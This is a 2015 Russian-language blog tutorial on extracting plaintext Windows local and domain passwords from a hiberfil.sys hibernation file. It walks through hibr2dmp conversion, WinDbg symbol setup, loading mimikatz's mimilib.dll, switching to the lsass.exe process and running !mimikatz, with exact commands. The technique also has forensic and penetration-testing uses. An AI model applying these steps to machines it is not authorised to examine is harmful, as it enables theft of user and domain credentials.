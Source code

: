 ```yaml
---
title: "Восстановливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
layout: default
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо [хорошо освещённого](http://www.securitylab.ru/news/420431.php) функционала восстановления паролей из памяти работающей ОС у неё есть ещё одна довольно интересная возможность. Далее я приведу пошаговую инструкцию, как при помощи нехитрых действий извлечь учётные данные из файла hiberfil.sys.  
  


###  **Подготовка**

  
Для осуществления задуманного нам понадобятся следующие утилиты:  


  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063\(v=vs.85\).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)



###  **Действия**

  


1\. Получаем файл hiberfil.sys с целевой машины.

  


2\. Конвертируем файл в формат понятный WinDbg

  


**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**

**  
**

Процесс может занять довольно продолжительное время

  


[![](images/1.jpg)](images/1.jpg)

  


3\. Запускаем WinDbg и открываем полученный файл 

  


**File  -**> **Open Crash Dump**

  


4\. Настраиваем отладочные символы

  


Открываем **File  ****-** >** ****Symbol File Path… **и вписываем следующую строчку

  


**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**

**  
**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы 

  


[![](images/2.png)](images/2.png)

  


В командной строке дебаггера пишем

  


0: kd> **.reload /n**

**  
**

Ждём окончания загрузки символов

  


[![](images/1.png)](images/1.png)

  


5\. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

  


0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**

**  
**

[![](images/1.png)](images/1.png)

  


6\. Находим адрес процесса lsass.exe

  


0: kd> **!process 0 0 lsass.exe**

**  
**

[![](images/1.png)](images/1.png)

  


В данном случае адрес: fffffa800a7d9060

  


7\. Переключаем контекст процесса

  


0: kd> **.process /r /p fffffa800a7d9060**

**  
**

[![](images/1.png)](images/1.png)

  


8\. Запускаем mimikatz и получаем пароли в открытом виде

  


0:kd>** !mimikatz**

**  
**

[![](images/1.png)](images/1.png)

**  
**

**  
**

**  
**

###  **Ссылки по теме**

**  
**

Раскрытие учетных данных в Microsoft Windows: **<http://www.securitylab.ru/vulnerability/420418.php>**

LSA Authentication: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa378326(v=vs.85).aspx>  
What is Digest Authentication:**<https://technet.microsoft.com/en-us/library/cc778868(WS.10).aspx>**

  


**  
**

  


  

